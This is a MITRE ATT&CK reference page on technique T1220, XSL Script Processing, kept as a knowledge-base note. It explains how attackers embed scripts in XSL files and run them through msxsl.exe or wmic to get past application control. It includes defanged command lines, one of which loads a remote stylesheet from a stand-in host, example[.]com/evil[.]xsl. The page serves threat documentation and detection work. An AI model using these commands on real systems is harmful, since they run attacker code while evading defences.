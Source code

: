 Tactics: [[DEFENSE_EVASION]]
Tags: #mitre/attack/techniques/T1220  

# XSL Script Processing - T1220
---
## Description
[more on T1220](https://attack.mitre.org/techniques/T1220)

Adversaries may bypass application control and obscure execution of code by embedding scripts inside XSL files. Extensible Stylesheet Language (XSL) files are commonly used to describe the processing and rendering of data within XML files. To support complex operations, the XSL standard includes support for embedded scripting in various languages. [1](https://docs.microsoft.com/dotnet/standard/data/xml/xslt-stylesheet-scripting-using-msxsl-script)

Adversaries may abuse this functionality to execute arbitrary files while potentially bypassing application control. Similar to [[T1127_Trusted Developer Utilities Proxy Execution|Trusted Developer Utilities Proxy Execution (T1127)]], the Microsoft common line transformation utility binary (msxsl.exe) [2](https://www.microsoft.com/download/details.aspx?id=21714) can be installed and used to execute malicious JavaScript embedded within local or remote (URL referenced) XSL files. [3](https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/) Since msxsl.exe is not installed by default, an adversary will likely need to package it with dropped files. [4](https://reaqta.com/2018/03/spear-phishing-campaign-leveraging-msxsl/) Msxsl.exe takes two main arguments, an XML source file and an XSL stylesheet. Since the XSL file is valid XML, the adversary may call the same XSL file twice. When using msxsl.exe adversaries may also give the XML/XSL files an arbitrary file extension.[5](https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75)

Command-line examples:[3](https://pentestlab.blog/2017/07/06/applocker-bypass-msxsl/)[5](https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75)

-   `msxsl.exe customers[.]xml script[.]xsl`
-   `msxsl.exe script[.]xsl script[.]xsl`
-   `msxsl.exe script[.]jpeg script[.]jpeg`

Another variation of this technique, dubbed "Squiblytwo", involves using [[T1047_Windows Management Instrumentation|Windows Management Instrumentation (T1047)]] to invoke JScript or VBScript within an XSL file.[6](https://lolbas-project.github.io/lolbas/Binaries/Wmic/) This technique can also execute local/remote scripts and, similar to its [[T1218_Signed Binary Proxy Execution#Regsvr32 - T1218 010|Regsvr32 (T1218.010)]]/ "Squiblydoo" counterpart, leverages a trusted, built-in Windows tool. Adversaries may abuse any alias in [[T1047_Windows Management Instrumentation|Windows Management Instrumentation (T1047)]] provided they utilize the /FORMAT switch.[5](https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75)

Command-line examples:[5](https://medium.com/@threathuntingteam/msxsl-exe-and-wmic-exe-a-way-to-proxy-code-execution-8d524f642b75)[6](https://lolbas-project.github.io/lolbas/Binaries/Wmic/)

-   Local File: `wmic process list /FORMAT:evil[.]xsl`
-   Remote File: `wmic os get /FORMAT:"https[:]//example[.]com/evil[.]xsl"`

---
## Sub-Techniques

#### none
